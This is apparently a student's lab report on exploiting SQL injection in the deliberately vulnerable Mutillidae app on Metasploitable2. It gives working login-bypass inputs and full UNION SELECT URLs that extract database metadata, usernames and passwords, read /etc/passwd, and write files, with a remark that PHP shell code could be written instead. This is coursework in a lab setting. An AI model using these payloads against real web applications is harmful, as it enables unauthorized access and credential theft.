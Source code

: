 # sqlinjection
Exploiting SQL Injection vulnerability

### NAME:- ESWANTH KUMAR K
### REG NO: 212223040046
# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database.

Identify IP address using ifconfig in Metasploitable2
![image](https://github.com/user-attachments/assets/7b903362-b443-443d-b3da-95292c0dcfa4)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.
![image](https://github.com/user-attachments/assets/aa1f61a1-9d4a-4adb-82c3-1bfff8df1194)
Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![image](https://github.com/user-attachments/assets/97879799-ce93-4b55-baaf-b7264d7c5e09)
Click on the menu Login/Register and register for an account
![image](https://github.com/user-attachments/assets/e5227127-f04d-4f80-9377-e6e5c861a023)
Click on the link “Please register here”
![image](https://github.com/user-attachments/assets/39594ea4-1a5f-4937-8f30-fba66bd767cd)
![image](https://github.com/user-attachments/assets/8f259f47-433e-4a21-8551-5e15a869c871)
Click on “Create Account” to display the following page:
![image](https://github.com/user-attachments/assets/5d3c9089-1a86-4c3f-a2bf-ce4cba989367)

The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.

![image](https://github.com/user-attachments/assets/2f2cf8ea-c6dc-4bb0-88f0-0fd4ce3a4fad)
Click “Login”. The logged in page will show as below:

![image](https://github.com/user-attachments/assets/ecc92b4a-182a-47fe-be8f-865a3eccd5f8)

## Bypassing login field
The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![image](https://github.com/user-attachments/assets/82f9f3be-6cb1-4823-8280-c3af385c3f6c)

Click the login button and you will see it enter into the administrator page.
![image](https://github.com/user-attachments/assets/1066ff4b-7890-4007-9e93-cd0afd23d500)
## Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below:
![image](https://github.com/user-attachments/assets/c115b9da-0008-486c-80dc-4dd3e9ad5b93)

![image](https://github.com/user-attachments/assets/38c19448-39c3-46fb-92c8-20e36b82c683)
![image](https://github.com/user-attachments/assets/7a768446-64d7-4a80-b96b-89c397e24aff)
![image](https://github.com/user-attachments/assets/93312337-bc95-42be-90bc-dfc11ecc5101)

![image](https://github.com/user-attachments/assets/4e6a2477-b821-487d-b1e7-a24f950ae8ec)

From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.

![image](https://github.com/user-attachments/assets/559142aa-b5a3-473e-8b6f-ed96fa179ad0)

Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/user-attachments/assets/9652a949-19ac-4cb9-9698-733bbccd3093)
After adding the order by 6 into the existing url , the following error statement will be obtained:
![image](https://github.com/user-attachments/assets/ab58f46d-3369-4ccb-a3ac-4d8031dec192)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![image](https://github.com/user-attachments/assets/05ec7591-ab49-47da-a766-b8eb4c9fc9b5)
As it is having 5 columns the query worked fine and it provides the correct result
![image](https://github.com/user-attachments/assets/b065cff4-9ca9-4d25-a995-250c2a114333)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union
![image](https://github.com/user-attachments/assets/58b074e6-64cb-49f0-afd0-4403273e742b)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.

![image](https://github.com/user-attachments/assets/3ada5ff8-451a-47d1-918c-3f050412a589)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/user-attachments/assets/28bb9041-6729-418f-ae5b-442565461341)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/user-attachments/assets/a20508d4-9161-4857-afe9-9b91df6c37b1)
The url once executed will retrieve table names from the “owasp 10” database.

## Extracting sensitive data such as passwords
When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/user-attachments/assets/882f154d-a231-4e78-a335-e85266f127f8)

![image](https://github.com/user-attachments/assets/143f6b94-3596-4745-9b44-bdb21834479b)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/user-attachments/assets/a674c2a2-6f98-4366-816c-136f8253813e)
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

## Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/user-attachments/assets/07a66e96-cfe9-4f5c-af59-a7421dab323d)
Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

## Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/user-attachments/assets/d2729d6f-16d5-43a9-af96-3dd70a2f29f5)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).
## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
